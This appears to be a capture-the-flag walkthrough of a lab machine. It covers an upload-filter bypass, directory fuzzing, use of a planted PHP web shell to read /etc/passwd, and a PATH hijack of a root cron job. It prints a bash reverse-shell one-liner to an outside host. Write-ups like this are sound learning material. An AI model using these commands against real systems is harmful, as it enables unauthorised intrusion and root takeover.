


# Hacker vs. Hacker

We start with Nmap

`nmap -sC -sV 10.10.54.39` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

Looking at the webpage we find a file upload section. We quickly upload our `php-reverse-shell.php` file.

But we get back a message.

Looking at the source code we find a code snippet for filtering uploads. The code verifies if there is “.pdf“ in the file name and the directory where the uploaded files are stored : `cvs/` . 

A change to our filename to `php-reverse-shell.pdf.php`  and upload. Still gets back the same message. Next we try opening the cvs directory. But directory listing is disabled.

We try fuzzing the directory for files with extension `.pdf.php` , to see if our file has been uploaded.

`ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -u [http://10.10.54.39/cvs/FUZZ](http://10.10.54.39/cvs/FUZZ) -e .pdf.php -t 100`

To our surprise we see another file  `shell.pdf.php` . Since the story behind the machine is that it has already been exploited and we are trying to regain control, existence of such a file is possible.

Running commands on that file returns results as expected.

[`http://10.10.54.39/cvs/shell.pdf.php?cmd=ls](http://10.10.54.39/cvs/shell.pdf.php?cmd=ls);`

Retrieving the `/etc/passwd`  file reveals the username `lachlan` .

And we get the first flag from the users folder.

Reading the `.bash_history` file shows a cron job `persistence`  and an attempt to change password.

Using the username and password we were able to login using SSH. But even before being able to run any commands we were getting kicked out along with a message “nope”. This might be the cron job the hacker has implemented to maintain persistence.

Looking at it we can see the path being set to `/home/lachlan/bin`  as the first one. (Not a good idea!)

Quick search and got a breakdown on the code:

/bin/sleep 1 → Delay for 1 second

for f in `/bin/ls /dev/pts` → loop all active pseudo terminal sessions

do /usr/bin/echo nope > /dev/pts/$f  → echo msg nope to all those sessions

pkill -9 -t pts/$f → kill those sessions

Since pseudo terminal sessions are killed, we disable it while logging in. 

We use -T flag of `ssh` , 

`-T      Disable pseudo-tty allocation`

We get a shell not interactive like bash or sh, but still can run commands.

The hacker is using `pkill` to kill the sessions and the file path given first is `/home/lachlan/bin` . Since the process start checking the path from left to right it will be checking `/home/lachlan/bin` first, which we can control. So we create our own `pkill` , which is a reverse shell to our attacker machine.

`echo "bash -c 'bash -i >& /dev/tcp/10.17.17.47/9001 0>&1'" > pkill` 

`chmod  +x pkill` 

The process is run as root. So we get a root shell back.

